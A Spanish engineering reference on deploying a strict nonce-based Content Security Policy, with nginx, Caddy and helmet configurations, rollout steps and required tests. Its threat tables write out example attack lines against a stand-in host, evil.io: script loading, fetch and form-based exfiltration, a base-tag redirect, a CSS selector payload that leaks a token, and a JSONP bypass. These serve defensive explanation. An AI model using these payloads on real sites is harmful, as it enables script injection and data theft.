


# Content Security Policy

Decisión cerrada: **toda respuesta HTML lleva un header `Content-Security-Policy` con nonce por request. Nada inline ejecuta ni se aplica sin ese nonce: ni script, ni estilo, ni atributo. `default-src 'none'` y cada tipo de recurso se abre a mano.** Es la segunda capa contra XSS: `cookies.md` hace que un XSS no se lleve la sesión, `origin.md` que no la use desde otro origen; CSP hace que el XSS no ejecute. Las tres, siempre.

Un XSS es "el browser ejecutó algo que no escribimos nosotros". CSP le dice al browser qué puede ejecutar: solo lo que lleva el nonce que el servidor generó para esa request. Lo demás se bloquea aunque esté en el HTML.

**CSP no depende de si cargamos terceros ni de si "hay inline".** Se pone porque en algún lugar de la app hay un `dangerouslySetInnerHTML`, un markdown de usuario, un parámetro de URL que alguien va a pintar sin escapar, o una dependencia del bundle que mañana viene con un payload. Y el mecanismo es nonce, siempre: `'self'` para scripts se descartó porque confía en un origen, y un origen es un lugar donde alguien puede llegar a escribir un archivo. El único escenario que varía es **quién inyecta el nonce** (más abajo).

## Qué intenta un script inyectado y qué lo frena

El payload típico no es un `alert(1)`. Es una cadena: entrar, cargar más código, ejecutar, sacar datos. Cada paso tiene una directiva.

| Paso del ataque | Cómo se ve | Qué lo frena |
|---|---|---|
| ejecutar inline | `<script>…</script>`, ``, `<a href="javascript:…">` | `script-src` solo con nonce. Los atributos `on*` los cubre `script-src-attr 'none'` |
| ejecutar desde string | `eval()`, `new Function()`, `setTimeout('…')` | sin `'unsafe-eval'` |
| **cargar un segundo stage** | el inline que entró hace `<script src="https://evil.io/x.js">` o lo crea con `createElement` | el inline ya no corrió. Si corrió igual, `strict-dynamic` solo propaga confianza a lo que crea un script **con nonce**; lo que entra por el parser no hereda |
| cargar el segundo stage desde nuestro origen | subió `evil.js` como "avatar" y lo pide con `<script src="/uploads/evil.js">` | con nonce + `strict-dynamic`, `'self'` no existe: un archivo propio sin nonce tampoco ejecuta. Más `nosniff` y `Content-Type` real en lo subido |
| inyectar CSS | `<style>` o `style="…"` con `background: url(https://evil.io/?` + selectores de atributo que exfiltran un token carácter a carácter | `style-src` solo con nonce: ni `<style>` ni atributos `style` sin nonce se aplican |
| redirigir los scripts propios | `<base href="https://evil.io/">`: todo `src` relativo ahora apunta ahí | `base-uri 'none'` |
| robar lo que el usuario escribe | `<form action="https://evil.io">` encima del login real | `form-action 'self'` |
| exfiltrar datos | `fetch('https://evil.io/?d=…')`, `new Image().src = …`, un `<link rel=prefetch>` abierto | `connect-src` e `img-src` por host exacto. `default-src 'none'` cierra `prefetch`, `media`, `object`, `manifest` y todo lo que no se abrió |
| meternos en un iframe invisible | clickjacking desde otro sitio | `frame-ancestors 'none'` |
| abrir un iframe hacia afuera | `<iframe src="https://evil.io/login-falso">` | `frame-src 'none'` |
| modificar el DOM con sinks peligrosos | `innerHTML`, `document.write`, `insertAdjacentHTML` con strings | CSP no lo frena si el string no trae script. Trusted Types (`require-trusted-types-for 'script'`) sí: solo Chrome, y entra en Report-Only primero |

Lo que **no** cubre CSP y por eso las demás capas siguen: el XSS que corre dentro de un script con nonce (una dependencia comprometida ya es "nuestra"), y todo lo que no es XSS. `cookies.md` y `origin.md` cubren la sesión; validación de input, la base.

## Las decisiones

| Directiva | Valor | Por qué | Cuándo cambia |
|---|---|---|---|
| `default-src` | `'none'` | lo que no tiene directiva propia, bloqueado. Cada recurso se abre a mano y queda escrito por qué | nunca |
| `script-src` | `'nonce-<aleatorio>' 'strict-dynamic'` | solo ejecuta lo que lleva el nonce de esta request y lo que eso cree. Sin `'self'`, sin hosts, sin `'unsafe-inline'`, sin `'unsafe-eval'` | nunca. Sin fallbacks para browsers viejos: todo browser soportado entiende `strict-dynamic` |
| `script-src-attr` | `'none'` | `onclick=`, `onerror=` y demás `on*` no ejecutan. React no los usa en el HTML | nunca |
| `style-src` | `'self' 'nonce-<aleatorio>'` | las hojas `.css` del bundle desde nuestro origen; `<style>` solo con nonce; atributos `style="…"` bloqueados. Lo que React setea con `style={{}}` va por CSSOM y **no** lo bloquea CSP | nunca a `'unsafe-inline'`. Una librería que inyecta `<style>` sin aceptar nonce, o toma el nonce o no entra al stack (ver abajo) |
| `style-src-attr` | `'none'` | `style="…"` en HTML inyectado no se aplica; es el vector de exfiltración por CSS | nunca |
| `img-src` | `'self' data: blob:` + hosts de imágenes exactos | `data:` por íconos inline, `blob:` por previews de upload | agregar el CDN de avatares por host, nunca `https:` |
| `font-src` | `'self'` | fuentes en el bundle. Self-host, no Google Fonts | nunca |
| `connect-src` | `'self'` + origen exacto de la API | `fetch`/axios/WebSocket solo a la API. Es lo que cierra la exfiltración | Sentry: su host de ingest, exacto |
| `manifest-src` | `'self'` | PWA manifest | sin PWA, sacarlo |
| `media-src` | `'self'` o nada | audio y video propios | host exacto si vienen de un CDN |
| `worker-src` | `'self' blob:` | Monaco y otros editores levantan workers desde `blob:` | sin workers, `'self'` |
| `frame-ancestors` | `'none'` | nadie nos mete en un iframe: ni otro sitio, ni un hermano, ni nosotros. Va con `X-Frame-Options: DENY` para los browsers que no la entienden (`headers.md`) | **no negociable**. Un producto nuestro que embebe a otro es un origen exacto por PR al core, con el por qué |
| `frame-src` | `'none'` | no embebemos nada | Stripe, YouTube, Maps: host exacto |
| `object-src` | `'none'` | sin plugins | nunca |
| `base-uri` | `'none'` | ningún `<base>`; la SPA no lo necesita | nunca |
| `form-action` | `'self'` | ningún form inyectado manda datos afuera | OAuth con `POST` a un IdP: su host |
| `upgrade-insecure-requests` | presente | un `http://` que quedó en el HTML se pide por HTTPS | nunca |
| `require-trusted-types-for` | `'script'`, primero en Report-Only | `innerHTML` y demás sinks solo aceptan `TrustedHTML`. DOMPurify lo produce con `RETURN_TRUSTED_TYPE: true` | pasa a enforce cuando Report-Only no reporta en una semana. Solo Chrome lo aplica; los demás lo ignoran |

Qué **no**:

- `'unsafe-inline'` en ninguna directiva. En `script-src` anula CSP; en `style-src` deja la exfiltración por CSS y los `style=` inyectados.
- `'unsafe-eval'`. Lo piden librerías viejas de templates. Cambiar la librería.
- `'self'` en `script-src`. Un host, aunque sea el nuestro, es un lugar desde el que se puede ejecutar cualquier archivo que alguien logre poner ahí. El nonce no tiene ese problema.
- Allowlist por host para scripts. Muchos hosts tienen JSONP o uploads. Terceros: se cargan desde un script nuestro con nonce y `strict-dynamic` los cubre.
- `https:` o `*` en `img-src`/`connect-src`.
- Hashes de scripts inline en vez de nonce. Sirven para HTML estático sin servidor; acá siempre hay servidor. Un hash fija el contenido: cambia el script, cambia el hash, se rompe el deploy.
- CSP por `<meta http-equiv>`. No soporta `frame-ancestors` ni reportes, y un XSS que inyecta antes del `<meta>` lo esquiva.
- Un nonce fijo o derivado de algo predecible. El atacante lo lee del HTML y lo pone en su script: es `'unsafe-inline'` con más pasos.

## Quién inyecta el nonce

El nonce son 16 bytes aleatorios por request, en el header y en cada `<script>`, `<link rel="stylesheet">` y `<style>` del HTML. Alguien tiene que generarlo al servir el HTML. Con la arquitectura de `../../architecture/SKILL.md` §8, el HTML lo sirve el host del frontend (`app.ejemplo.com`), no la API.



El build de Vite deja un placeholder en cada tag; quien sirve lo reemplaza. Vite no emite scripts inline en el build, así que el nonce cubre tags de archivo, no inline. Eso está bien: es lo que `strict-dynamic` necesita para propagar confianza.

```ts
// apps/web/vite.config.ts: nonce="__CSP_NONCE__" en cada <script>, <link rel=stylesheet> y <style> que Vite emite
export default defineConfig({ html: { cspNonce: '__CSP_NONCE__' } });
```

| Escenario | Quién | Cómo |
|---|---|---|
| **SPA en `app.ejemplo.com` servida por nginx** (el default) | nginx | `$request_id`: 16 bytes aleatorios en hex, por request. Va al header y reemplaza el placeholder con `sub_filter`. Config abajo |
| **SPA servida por Caddy** (el `proxy` de `../../docker-ci/references/docker.md`) | Caddy | `templates` sobre `index.html` con `{{placeholder "http.request.uuid"}}` y el mismo placeholder en `header`. Mismo criterio; verificar con el test de "dos requests, dos nonces" |
| **El back sirve `index.html`** o hay SSR | la app | `randomBytes(16)` por request, helmet con función de nonce, `replaceAll` del placeholder. Código abajo |
| **Terceros** (Stripe, GTM, Maps, Intercom) | sin cambio | se cargan desde **un** script propio con nonce; `strict-dynamic` propaga la confianza. Lo que el tercero necesite en `connect-src`/`frame-src` se agrega por host exacto |
| **Embebemos algo** (Stripe Elements, YouTube) | sin cambio | `frame-src https://js.stripe.com`. Nada más |
| **Nos embeben** (widget en el sitio de un cliente) | sin cambio | `frame-ancestors https://cliente.com`, exacto, desde config. Nunca `*` |
| **Admin interno, intranet** | igual | no hay escenario "no hace falta" |
| **Contenido de usuario pintado como HTML** | igual | CSP es la red; no reemplaza a `DOMPurify` (`../../typescript/references/security.md`). Con Trusted Types, DOMPurify devuelve `TrustedHTML` |

### `strict-dynamic`: quién confía en quién



Un script con nonce puede crear otros con `createElement` o `import()`, y esos heredan la confianza, en cadena. Es lo que hace que los chunks lazy de Vite y los terceros funcionen sin listar hosts. Lo que entra por el parser (`innerHTML`, `document.write`, un `<script>` en un comentario de usuario) no hereda nada.

### Librerías que inyectan `<style>`

Sin `'unsafe-inline'` en `style-src`, una librería que hace `document.head.append(styleEl)` sin nonce ve sus estilos bloqueados. La convención es que la librería lea el nonce de algún lado (`__webpack_nonce__`, una opción `nonce`, un `<meta property="csp-nonce">`). Antes de que una entre al stack:

| Librería | Qué hace | Qué hay que verificar |
|---|---|---|
| Tailwind | emite un `.css` en build | nada: `'self'` lo cubre |
| shadcn/ui, Radix | estilos por clases y por `style={{}}` (CSSOM) | nada: CSSOM no pasa por CSP |
| UnoCSS runtime | inyecta `<style>` en el browser | que acepte nonce. Si no, **no entra**: la clase dinámica se resuelve con `style={{}}` (CSSOM) o con variantes de Tailwind precalculadas. Anotar la decisión en Decisiones del plan |
| Monaco | inyecta `<style>` y workers | que acepte nonce (lee `<meta property="csp-nonce">` en versiones recientes). Verificar en Playwright con la política en enforce |
| cualquier CSS-in-JS | inyecta `<style>` | ya está en "Nunca" de `../../react/SKILL.md` |

Vite puede dejar un `<meta property="csp-nonce" nonce="__CSP_NONCE__">` para que las librerías que siguen esa convención lo lean; es lo que `html.cspNonce` genera.

## Con qué

### nginx sirviendo la SPA en `app.ejemplo.com`

```nginx
# apps/web/nginx.conf: el nonce es $request_id (16 bytes aleatorios, hex). Un valor por request.
server {
  listen 443 ssl http2;
  server_name app.ejemplo.com;
  root /usr/share/nginx/html;

  set $csp "default-src 'none'; script-src 'nonce-$request_id' 'strict-dynamic'; script-src-attr 'none'; style-src 'self' 'nonce-$request_id'; style-src-attr 'none'; img-src 'self' data: blob:; font-src 'self'; connect-src 'self' https://api.ejemplo.com; manifest-src 'self'; worker-src 'self' blob:; frame-ancestors 'none'; frame-src 'none'; object-src 'none'; base-uri 'none'; form-action 'self'; upgrade-insecure-requests; report-to csp";

  location / {
    try_files $uri /index.html;
  }

  location = /index.html {
    add_header Content-Security-Policy $csp always;
    add_header Reporting-Endpoints 'csp="https://o0.ingest.sentry.io/api/0/security/?sentry_key=..."' always;
    add_header Cache-Control "no-store" always;                  # el nonce es por request: el HTML no se cachea
    sub_filter_once off;
    sub_filter '__CSP_NONCE__' $request_id;                      # cada nonce="__CSP_NONCE__" del build
    sub_filter_types text/html;
  }

  location /assets/ {
    add_header Cache-Control "public, max-age=31536000, immutable" always;   # los .js y .css con hash sí se cachean
  }
}
```

Lo mismo en Caddy:

```
# Caddyfile para app.ejemplo.com
app.ejemplo.com {
  root * /srv/dist
  header /index.html {
    Content-Security-Policy "default-src 'none'; script-src 'nonce-{http.request.uuid}' 'strict-dynamic'; ... (misma política)"
    Cache-Control "no-store"
  }
  templates /index.html                 # habilita {{ }} en el HTML: el placeholder del build se escribe como {{placeholder "http.request.uuid"}}
  try_files {path} /index.html
  file_server
}
```

Con Caddy el placeholder de Vite tiene que ser literalmente `{{placeholder "http.request.uuid"}}` (en `html.cspNonce`), porque `templates` evalúa el HTML, no hace reemplazo de texto.

### El back sirve el HTML, o SSR

```ts
// apps/api/src/security/csp.ts
import helmet from 'helmet';
import { randomBytes } from 'node:crypto';

export function nonce(_req: Request, res: Response, next: NextFunction) {
  res.locals.nonce = randomBytes(16).toString('base64');
  next();
}

const n = (_req: unknown, res: unknown) => `'nonce-${(res as Response).locals.nonce}'`; // helmet tipa res como ServerResponse

export const csp = helmet({
  contentSecurityPolicy: {
    reportOnly: config.CSP_REPORT_ONLY,
    directives: {
      defaultSrc: ["'none'"],
      scriptSrc: [n, "'strict-dynamic'"],
      scriptSrcAttr: ["'none'"],
      styleSrc: ["'self'", n],
      styleSrcAttr: ["'none'"],
      imgSrc: ["'self'", 'data:', 'blob:', config.UPLOADS_CDN].filter(Boolean),
      fontSrc: ["'self'"],
      connectSrc: ["'self'", config.API_ORIGIN, config.SENTRY_INGEST].filter(Boolean),
      manifestSrc: ["'self'"],
      workerSrc: ["'self'", 'blob:'],
      frameAncestors: ["'none'"],
      frameSrc: ["'none'"],
      objectSrc: ["'none'"],
      baseUri: ["'none'"],
      formAction: ["'self'"],
      upgradeInsecureRequests: [],
      requireTrustedTypesFor: ["'script'"],
      reportTo: ['csp'],
    },
  },
  crossOriginEmbedderPolicy: false, // rompe embeds de terceros; activar solo si se usa SharedArrayBuffer
});

// al servir index.html: el archivo se lee una vez y se cachea; el reemplazo es por request
res.type('html').set('Cache-Control', 'no-store').send(indexHtml.replaceAll('__CSP_NONCE__', res.locals.nonce));
```

### Terceros bajo `strict-dynamic`

```ts
// apps/web/src/third-party.ts: lo único que carga scripts ajenos. Está en el bundle, que tiene nonce
const s = document.createElement('script');
s.src = 'https://js.stripe.com/v3/';
document.head.append(s); // confiable: lo creó un script con nonce
```

### La API

Solo devuelve JSON. Su política es la mínima y no tiene nonce porque no tiene HTML:

```
Content-Security-Policy: default-src 'none'; frame-ancestors 'none'
```

Si algún día devuelve HTML (una página de error del framework), no ejecuta nada.

## Otros headers que van con CSP

Están en `headers.md`: `X-Frame-Options`, HSTS, `nosniff`, `Referrer-Policy`, `Permissions-Policy`, COOP, CORP, `Origin-Agent-Cluster`, `Cache-Control`, y los legacy que se mandan en `0` o `none`. Qué evita cada uno, desde qué browser funciona, y por qué se mandan todos aunque alguno sea fallback. El bloque de nginx de arriba se completa con el de `headers.md`.

## Rollout

CSP se rompe en producción con cosas que en dev andan: un `onclick=` en un HTML viejo, una extensión del browser, una librería que inyecta `<style>`, una imagen de un host que nadie listó. Se despliega en dos pasos:

1. **`Content-Security-Policy-Report-Only`** con la política final y `report-to` apuntando a Sentry (soporta reportes CSP nativos) o a un endpoint propio. Una semana mirando qué bloquearía.
2. Cambiar el header a `Content-Security-Policy`. Dejar `report-to`: las violaciones que lleguen son intentos de XSS o un deploy roto.

Trusted Types sigue el mismo camino, una semana después: primero Report-Only, después enforce.

En dev **no se aplica**: el dev server de Vite inyecta el preámbulo de React Refresh inline y lo rompería. Se prueba con `vite build && vite preview` detrás del nginx/Caddy de arriba, o en staging. El test de Playwright corre contra eso.

## Qué pasa si no

| Atajo | Consecuencia |
|---|---|
| sin CSP, "las cookies ya son `httpOnly`" | el XSS no se lleva la cookie, pero hace requests **con** la cookie desde la página: cambia el mail, crea un admin, exfiltra datos por `fetch` |
| sin CSP, "no cargamos terceros" | el vector no son los terceros: es el markdown de un usuario, un `?q=` pintado sin escapar, una dependencia con payload. CSP es para lo que **no** escribimos |
| `script-src 'self'` "porque la SPA no tiene inline" | un "avatar" que es un `.js` servido desde el mismo origen pasa como propio. Y cualquier bug del servidor que permita escribir un archivo es ejecución |
| `script-src 'self' 'unsafe-inline'` | es no tener CSP para el vector que importa |
| `style-src 'unsafe-inline'` "porque UnoCSS lo necesita" | un `<style>` inyectado con `input[value^="a"] { background: url(https://evil.io/a) }` lee un token del DOM carácter a carácter. Lento, pero funciona, y nadie lo ve en los logs |
| nonce fijo en el build, o `nonce = hash(sessionId)` | el atacante lo copia del HTML. Igual a `'unsafe-inline'` |
| HTML con nonce cacheado por CDN | todos reciben el mismo nonce: es un nonce fijo con más pasos. `Cache-Control: no-store` en el HTML |
| allowlist `script-src https://www.google.com` | `https://www.google.com/complete/search?callback=alert` es un JSONP válido. Ejecuta |
| `connect-src *` | el script inyectado manda todo lo que ve a donde quiera |
| `frame-ancestors` sin setear | clickjacking: nuestra app transparente arriba de un botón ajeno |
| CSP directo a enforce sin Report-Only | el deploy rompe el checkout porque nadie listó a Stripe en `frame-src` |

## Qué pedirle a Claude

> "Vamos a agregar CSP. Decime quién sirve el HTML en `app.ejemplo.com` y armá la política con nonce de `csp.md` en Report-Only. Listá cada librería del stack que inyecta `<style>` o `<script>` y si acepta nonce."

Y después de agregar cualquier script, iframe, host externo o librería de UI: "¿qué directiva de CSP necesita esto, y toma el nonce?".

## Tests que tienen que existir

- `GET /` en `app.ejemplo.com` devuelve `Content-Security-Policy` con `default-src 'none'`, `script-src 'nonce-…' 'strict-dynamic'` sin `'self'` ni `'unsafe-inline'`, `style-src` sin `'unsafe-inline'`, `object-src 'none'`, `frame-ancestors 'none'`, `base-uri 'none'`. Se verifica el string del header.
- Dos requests a `/` devuelven nonces distintos, y el del header es el mismo que el de cada `<script>` y `<link rel="stylesheet">` del HTML. Ningún tag sin nonce.
- `GET /` devuelve `Cache-Control: no-store`; `GET /assets/<hash>.js` devuelve `immutable`.
- Playwright: el flujo crítico (login, la pantalla principal, lo que use Monaco o UnoCSS si están) corre con la política en enforce y no hay eventos `securitypolicyviolation`. Es el test que atrapa a la librería que inyecta `<style>` sin nonce y al tercero que nadie listó.
- Playwright: inyectar `<script>window.x=1</script>` y `<style>body{display:none}</style>` por `innerHTML` en la página; `window.x` sigue `undefined` y el body sigue visible.
- Si hay uploads: subir un `.js` como imagen y verificar que `<script src>` a esa URL no ejecuta.
- La API: `GET /orders` devuelve `Content-Security-Policy: default-src 'none'; frame-ancestors 'none'`.

## Fuentes

- [web.dev, Mitigate XSS with a strict Content Security Policy](https://web.dev/articles/strict-csp): nonce + `strict-dynamic`, por qué no allowlists por host.
- [MDN, CSP `style-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/style-src) y [`style-src-attr`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/style-src-attr): qué bloquea cada una; CSSOM no pasa por CSP.
- [web.dev, Trusted Types](https://web.dev/articles/trusted-types): `require-trusted-types-for 'script'` y DOMPurify.
- [Vite, `html.cspNonce`](https://vite.dev/config/shared-options.html#html-cspnonce): el placeholder en cada tag y el `<meta property="csp-nonce">`.
- [nginx, `$request_id`](https://nginx.org/en/docs/http/ngx_http_core_module.html#var_request_id) y [`sub_filter`](https://nginx.org/en/docs/http/ngx_http_sub_module.html): nonce por request sin proceso de aplicación.
- [Caddy, `templates`](https://caddyserver.com/docs/caddyfile/directives/templates) y [placeholders](https://caddyserver.com/docs/caddyfile/concepts#placeholders): `http.request.uuid`.
- [PortSwigger, CSS injection / exfiltration](https://portswigger.net/research/blind-css-exfiltration): por qué `style-src` también sin inline.
